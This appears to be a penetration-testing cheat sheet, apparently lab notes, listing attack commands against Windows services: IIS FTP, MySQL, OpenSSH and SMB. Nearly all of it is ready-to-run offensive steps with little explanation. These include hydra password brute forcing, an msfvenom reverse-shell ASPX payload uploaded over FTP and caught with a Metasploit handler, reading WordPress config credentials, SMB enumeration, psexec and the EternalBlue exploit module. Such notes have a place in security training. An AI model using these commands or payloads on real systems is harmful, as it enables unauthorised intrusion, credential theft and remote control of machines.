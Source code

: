 ### Windows

#### IIS FTP

Microsoft ftpd (port 21) it's used in combination with Microsoft IIS httpd (port 80)

```bash
# test ftp anon auth
$ nmap -sV -p 21 --script ftp-anon <ip>
# hydra brute force ftp
$ hydra -L unix_users.txt -P unix_passwords.txt <ip> ftp
$ hydra -l <username> -P unix_passwords.txt <ip> ftp
# connect
$ ftp <ip> <port>
$ msfvenom -p windows/shell/reverse_tcp LHOST=<ip> LPORT=1234 -f asp > shell.aspx
ftp> put shell.aspx
> use multi/handler
```

#### MySQL

```bash
$ searchsploit mysql
> use mysql_login
> set PASS_FILE unix_passwords.txt
$ mysql -u <user> -p -h <ip>
>show databases
```

If some web apps have restricted access you can modify the conf:

```bash
cat C:\wamp\www\wordpress\wp-config.php
cat C:\wamp\alias\phpmyadmin.conf
```

```bash
net stop wampapache
net start wampapache
```

#### OpenSSH

```bash
searchsploit OpenSSH
hydra -l vagrant -P unix_users.txt <ip> ssh
ssh <user>@<ip>
```

#### SMB

```bash
# after obtaining credentials
# go enum shares
$ smbclient -L <ip> -U <user>
$ smbmap -u <user> -p <pass>
$ enum4linux -u <user> -p <pass> <ip>
# msf modules
> smb/enum_users
$ locate psexec.py
$ python psexec.py <user>@<ip>
> smb/psexec_loggedin_users
> exploit/windows/smb/ms17_010_eternalblue
```
